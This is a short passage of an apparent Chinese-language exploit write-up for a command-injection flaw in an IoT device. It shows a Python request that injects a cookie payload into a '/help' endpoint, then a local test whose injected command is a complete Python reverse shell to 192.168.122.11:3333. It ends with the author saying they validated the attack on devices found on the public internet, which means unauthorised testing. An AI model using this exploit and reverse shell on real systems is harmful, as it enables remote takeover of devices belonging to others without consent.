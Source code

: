 ```python


urllib3.disable_warnings()

url= url+"/help"
head= {'Cookie':payload}
r=requests.post(url,headers=head,verify=False)

print(r)
print(r.text)
print(r.content)

```


# 本地测试

以Command Inject EXP为例：

```shell
python exp.py http://192.168.122.12 "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.122.11\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

![](../pic/iot/img1/29.png)


# 真实设备测试

由于我手里没有真实设备,只能找一些公网上的设备验证。

用burpsuit抓包获取设备特征
